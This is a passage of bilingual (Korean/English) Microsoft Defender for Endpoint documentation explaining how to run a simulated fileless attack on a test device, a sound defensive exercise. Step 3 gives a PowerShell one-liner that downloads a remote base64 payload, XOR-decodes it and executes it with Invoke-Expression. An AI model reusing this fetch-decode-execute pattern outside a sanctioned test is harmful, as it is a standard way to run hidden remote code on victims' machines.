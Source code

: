    1. <span data-ttu-id="eb80f-146">테스트 장치가 [끝점용 Microsoft Defender에 온보딩된지 확인합니다.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="eb80f-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="eb80f-147">기존 테넌트를 사용하여 장치 그룹을 구현하는 경우 테스트 장치에 대한 전용 장치 그룹을 만들고 구성 UX에서 최상위 수준으로 푸시합니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="eb80f-148">공격 시나리오 시뮬레이션 실행</span><span class="sxs-lookup"><span data-stu-id="eb80f-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="eb80f-149">공격 시나리오 시뮬레이션을 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="eb80f-150">테스트 사용자 계정을 사용하여 테스트 장치에 로그인합니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="eb80f-151">테스트 Windows PowerShell 창을 열 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="eb80f-152">다음 시뮬레이션 스크립트를 복사합니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="eb80f-153">웹 브라우저에서 이 문서를 열면 특정 문자를 잃거나 추가 줄 변경 없이 전체 텍스트를 복사하는 데 문제가 발생할 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="eb80f-154">이 문서를 다운로드하여 Adobe Reader에서 여는 경우</span><span class="sxs-lookup"><span data-stu-id="eb80f-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="eb80f-155">프롬프트에서 복사한 스크립트를 붙여넣고 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="eb80f-156">RDP(원격 데스크톱 프로토콜)를 사용하여 PowerShell을 실행하는 경우 **CTRL-V** 바로 가기 키 또는 마우스 오른쪽 단추 클릭 붙여넣기 메서드가 작동하지 않을 수 있기 때문에 RDP 클라이언트에서 클립보드 텍스트 형식 명령을 사용합니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="eb80f-157">최신 버전의 PowerShell에서도 이 메서드를 허용하지 않는 경우도 있습니다. 메모리의 메모장에 먼저 복사하여 가상 머신에 복사한 다음 PowerShell에 붙여넣아야 할 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="eb80f-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>
